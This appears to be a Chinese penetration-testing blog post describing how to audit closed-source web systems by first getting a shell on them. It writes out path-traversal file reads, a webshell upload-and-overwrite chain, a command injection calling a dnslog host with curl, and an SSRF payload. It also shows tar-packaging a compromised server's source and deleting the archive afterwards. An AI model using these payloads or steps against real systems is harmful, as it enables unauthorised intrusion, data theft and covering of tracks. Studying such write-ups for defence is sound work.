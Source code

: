 ```
标题: "无"源码环境下的代码审计之旅
创建: 2021-06-22
更新: 2024-02-03
```

> 从 CN-SEC 找回的旧文

---

分享一下前段时间遇到的系统无源码(不开源)的代码审计(捡漏)tips
- 任意文件读取/下载
- 在线审计
- n(1)day -> 0day
- getshell后 打包源码
- 是否出现常见漏洞组件或框架（编辑器/shiro/fastjson等）

---

### 案例1

> 跟着团队大哥的操作学习

发现一处文件下载的地方

```http
GET /download?module=&method=Download&name=test.zip&filepath=doc/test.zip HTTP/1.1
Host: 1.1.1.1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) 
Accept: text/html,application/xhtml+xml,application/xml
Accept-Encoding: gzip, deflate
```

burp抓包，换为post请求发现可下载任意文件

```http
POST /download HTTP/1.1
Host: 1.1.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) 
Accept: text/html,application/xhtml+xml,application/xml
Accept-Encoding: gzip, deflate

module=&method=Download&name=test.zip&filepath=../webapps/WEB-INF/web.xml
```

读取日志文件判断class文件的位置

```http
POST /download HTTP/1.1
Host: 1.1.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
Accept: text/html,application/xhtml+xml,application/xml
Accept-Encoding: gzip, deflate

module=&method=Download&name=test.zip&filepath=../logs/catalina.2021-xx-xx.log
```

下载class文件分析审计

在/download路由下的servlet存在上传文件和更新文件的操作

首先上传一个空文件到web目录：

```http
POST /download HTTP/1.1
Host: 1.1.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) 
Accept: text/html,application/xhtml+xml,application/xmlAccept-Encoding: gzip, deflate

module=&method=upload&txtFile_Name=x.jsp&home=/&filepath=../webapps/
```

再更新文件内容为webshell:

```http
POST /download HTTP/1.1
Host: 1.1.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) 
Accept: text/html,application/xhtml+xml,application/xml
Accept-Encoding: gzip, deflate

module=&method=updateContent&home=/&filepath=../webappsdebugx.jsp&content=xxxxxx()
```

### 案例2

某系统存在弱口令+后台RCE，打包源码

```shell
# 打包源码
tar -zcvf /usr/abc/www/xx.tar.gz /usr/abc/www/
# 下载源码 
http://www.xxx.com/xx.tar.gz
# 删除压缩包
rm -f xx.tar.gz
```

下载后进行代码审计
- 任意文件下载 1枚
- 后台RCE 1枚

**任意文件下载**

![](./img/1706969364849.png)

很明显的漏洞点，可用../进行目录穿越

```
/?c=backup&a=download&file=../../../../../../../../../etc/passwd
```

![](./img/1706969388299.png)


**后台RCE**

![](./img/1706969410696.png)

同样，也是明显的漏洞点，直接拼接了没经过滤的参数destip

```
/?c=maintain&a=iptrace

post:destip=127.0.0.1|curl q2tsgk.dnslog.cn
```

![](./img/1706969439814.png)


### 案例3

某系统使用了存在漏洞的框架

通过目录扫描/探测


![](./img/1706969466631.png)

发现了该系统存在路径

```
vendor/phpunit/src/Util/PHP/eval-stdin.php
```

瞬间想起了之前复现过的漏洞
- 框架：PHPUnit
- 编号：CVE-2017-9841

直接用工具打一波

![](./img/1706969506078.png)

提取指纹，看看互联网案例

![](./img/1706969518229.png)

影响范围还行，拿shell, 借用源码，继续审计。


### 案例4

某oa系统使用了存在漏洞的编辑器

使用nday拿到shell, 打包源码下载，然后进行代码审计。

在其目录机构中发现了ueditor

![](./img/1706969548026.png)

```
/ueditor/jsp/controller.jsp?action=catchimage&source[]=http://dnslog.cn/test.jpg
```

找了张当时刚捡到漏洞并验证的截图

![](./img/1706969570536.png)

...


---

[LEAVE A REPLY](https://github.com/pen4uin/blog-feedback/issues/new)




















